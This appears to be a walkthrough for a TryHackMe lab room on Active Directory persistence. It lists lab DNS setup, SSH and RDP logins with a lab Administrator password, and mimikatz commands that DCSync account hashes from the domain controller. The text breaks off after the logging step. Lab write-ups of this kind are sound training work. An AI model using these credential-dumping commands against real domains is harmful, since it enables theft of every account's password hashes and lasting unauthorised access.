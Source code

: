 # Persisting Active Directory

**Room Link:** [https://tryhackme.com/room/persistingad](https://tryhackme.com/room/persistingad)

## Introduction

**Kali**

```
systemd-resolve --interface persistad --set-dns $THMDCIP --set-domain za.tryhackme.loc
nslookup thmdc.za.tryhackme.loc
```



## Persistence through Credentials

**Kali**

```
ssh Administrator@thmwrk1.za.tryhackme.loc
Password: tryhackmewouldnotguess1@
```

**Kali**

```
xfreerdp +clipboard /u:"Administrator" /v:thmwrk1.za.tryhackme.loc:3389 /size:1024x568 /smart-sizing:800x1200
Password: tryhackmewouldnotguess1@
```

### DCSync All

**Victim(cmd)**

```
C:\Tools\mimikatz_trunk\Win32\mimikatz.exe
```

You will see quite a bit of output, including the current NTLM hash of your account. You can verify that the NTLM hash is correct by using a [website such as this](https://codebeautify.org/ntlm-hash-generator) to transform your password into an NTLM hash.

This is great and all, but we want to DC sync every single account. To do this, we will have to enable logging on Mimikatz.

**Victim(mimikatz)**

```
lsadump::dcsync /domain:za.tryhackme.loc /user:$YourLow-privilegeADUsername
log $username_dcdump.txt
```
